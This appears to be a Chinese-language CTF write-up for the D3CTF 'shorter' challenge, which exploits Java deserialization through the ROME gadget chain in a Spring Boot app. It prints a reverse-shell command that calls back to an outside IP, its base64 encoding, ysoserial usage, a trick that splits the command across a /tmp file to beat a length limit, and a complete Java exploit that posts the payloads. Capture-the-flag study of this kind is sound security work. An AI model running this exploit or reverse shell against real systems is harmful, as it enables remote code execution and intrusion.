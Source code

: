 # shorter

根据dockerfile的信息，flag文件在根目录，目标就是读取这个flag文件。

![avatar](img/d3ctf_shorter_0.png)

用jadx反编译jar文件，可以发现这是一个简单的SpringBoot后端，只有一个controller。

![avartar](img/d3ctf_shorter_1.png)

看到readObject，说明能够反序列化，由于没有回显，只能RCE反弹shell。找找能利用的依赖包，在pom.xml中可以看到rome。

![avartar](img/d3ctf_shorter_2.png)

先做准备工作，在路由器里设置端口映射，再在电脑里开一个监听端口:
```ncat -lvvp 2224```

![avartar](img/d3ctf_shorter_3.png)
![avartar](img/d3ctf_shorter_4.png)

反弹shell的命令为`bash -i >& /dev/tcp/123.123.12.12/2224 0>&1`，其中的123.123.12.12是我家的ip地址。但是Java的exec不支持这种重定向的行为，所以需要先用Base64编码，再用`bash -c`来运行：
```/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjMuMTIzLjEyLjEyLzIyMjQgMD4mMQo=}|{base64,-d}|{bash,-i}```

使用ysoserial可以生成payload：
```java -jar ysoserial.jar ROME '/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjMuMTIzLjEyLjEyLzIyMjQgMD4mMQo=}|{base64,-d}|{bash,-i}' | base64```

但是后端限制的表单内容长度为1956，上面这段命令生成的payload长度达到了4512，所以得想办法减少长度。

在<https://xz.aliyun.com/t/10824>这篇文章中找到了一些缩小长度的方法，结合<https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html>手动构造payload来尽可能缩小长度。最后缩减到了2032，但还是达不到要求。主要问题在于这个命令太长了。

既然命令太长，那就分成几个部分来发，把这一串命令拆开分别写入一个文件，最后直接运行这个文件就好。每次写入都是新的一行，所以需要在每一行后面加一个反斜杠，例如：
```
{echo,YmFzaCA\
taSA+JiAvZGV2\
L3RjcC8xMjMuM\
TIzLjEyLjEyLz\
IyMjQgMD4mMQo=}\
|{base64,-d}|{b\
ash,-i}
```

也就是说需要分别运行以下的命令：
```
mkdir /tmp/a
/bin/bash -c echo >/tmp/a/a
/bin/bash -c echo '{echo,\'>>/tmp/a/a
/bin/bash -c echo 'YmFzaC\'>>/tmp/a/a
/bin/bash -c echo 'AtaSA+\'>>/tmp/a/a
/bin/bash -c echo 'JiAvZG\'>>/tmp/a/a
/bin/bash -c echo 'V2L3Rj\'>>/tmp/a/a
/bin/bash -c echo 'cC8xMj\'>>/tmp/a/a
/bin/bash -c echo 'MuMTIz\'>>/tmp/a/a
/bin/bash -c echo 'LjEyLj\'>>/tmp/a/a
/bin/bash -c echo 'EyLzIy\'>>/tmp/a/a
/bin/bash -c echo 'MjQgMD\'>>/tmp/a/a
/bin/bash -c echo '4mMQ==\'>>/tmp/a/a
/bin/bash -c echo '}|{bas\'>>/tmp/a/a
/bin/bash -c echo 'e64,-d\'>>/tmp/a/a
/bin/bash -c echo '}|{bas\'>>/tmp/a/a
/bin/bash -c echo 'h,-i}'>>/tmp/a/a
/bin/bash /tmp/a/a
```

![avartar](img/d3ctf_shorter_5.png)

这里需要注意的是写入文件的位置，之所以写到/tmp目录中是因为这里有写入权限，不能写到一个没有权限的位置，我在这个问题上也纠结了很久才发现的，毕竟没有回显只能靠蒙。

对每个payload发一次post，最后如果成功了，就能看到监听端口接收到的shell。

![avartar](img/d3ctf_shorter_6.png)

EXP:
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.HashMap;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;
import org.apache.hc.client5.http.classic.methods.HttpPost;
import org.apache.hc.client5.http.entity.UrlEncodedFormEntity;
import org.apache.hc.client5.http.impl.classic.CloseableHttpClient;
import org.apache.hc.client5.http.impl.classic.CloseableHttpResponse;
import org.apache.hc.client5.http.impl.classic.HttpClients;
import org.apache.hc.core5.http.NameValuePair;
import org.apache.hc.core5.http.io.entity.EntityUtils;
import org.apache.hc.core5.http.message.BasicNameValuePair;
import org.objectweb.asm.ClassReader;
import org.objectweb.asm.ClassVisitor;
import org.objectweb.asm.ClassWriter;
import org.objectweb.asm.Opcodes;
import javax.xml.transform.Templates;
import java.util.Base64;
import java.util.List;


public class Rome {
    public static void main(String[] args) throws Exception {
        String bash = "bash -i >& /dev/tcp/123.123.12.12/2224 0>&1";
        String bash64 = Base64.getEncoder().encodeToString(bash.getBytes());
        String shell = "{echo," + bash64 + "}|{base64,-d}|{bash,-i}";
        ArrayList<String> shell_split = new ArrayList<>();
        int split_n = 6;
        int last;
        for (int i=0; i<shell.length(); i+=split_n) {
            if (i + split_n > shell.length())
                last = shell.length();
            else
                last = i + split_n;
            shell_split.add(shell.substring(i, last));
        }
        execCMD(getEXP("mkdir /tmp/a"));
        execCMD(getEXP("/bin/bash -c echo${IFS}>/tmp/a/a"));
        for (int i=0; i<shell_split.size(); ++i) {
            String part = shell_split.get(i);
            if (i != shell_split.size()-1)
                part = part + "\\\\";
            execCMD(getEXP("/bin/bash -c echo${IFS}'" + part + "'>>/tmp/a/a"));
        }
        execCMD(getEXP("/bin/bash /tmp/a/a"));
    }

    private static String getEXP(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("E");
        ctClass.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        CtConstructor constructor;
        constructor =
                CtNewConstructor.make(" public E() {\n" +
                        "       java.lang.Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                        "   }", ctClass);
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        ctClass.defrost();

        ClassReader cr = new ClassReader(bytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM5;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();

        TemplatesImpl templates = new TemplatesImpl();
        Field field1 = templates.getClass().getDeclaredField("_bytecodes");
        field1.setAccessible(true);
        field1.set(templates, new byte[][]{out});
        Field field2 = templates.getClass().getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates, "t");

        ObjectBean objectBean1 = new ObjectBean(Templates.class, templates);
        ObjectBean objectBean2 = new ObjectBean(ObjectBean.class, objectBean1);

        HashMap<Object, Object> map = new HashMap<>();
        Field field4 = map.getClass().getDeclaredField("size");
        field4.setAccessible(true);
        field4.set(map, 2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, objectBean1, objectBean1, null));
        Array.set(tbl, 1, nodeCons.newInstance(1, objectBean2, objectBean2, null));
        Field fieldtable = map.getClass().getDeclaredField("table");
        fieldtable.setAccessible(true);
        fieldtable.set(map, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] sss = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();

        String exp = Base64.getEncoder().encodeToString(sss);
        return exp;
    }

    private static void execCMD(String exp) throws Exception {
        CloseableHttpClient httpClient = HttpClients.createDefault();
        HttpPost httpPost = new HttpPost("http://shorter.d3ctf-challenge.n3ko.co/hello");
        List<NameValuePair> params = new ArrayList<NameValuePair>();
        params.add(new BasicNameValuePair("baseStr", exp));
        httpPost.setEntity(new UrlEncodedFormEntity(params));
        CloseableHttpResponse response = httpClient.execute(httpPost);
        System.out.println(EntityUtils.toString(response.getEntity()));
        httpClient.close();
    }
}

```
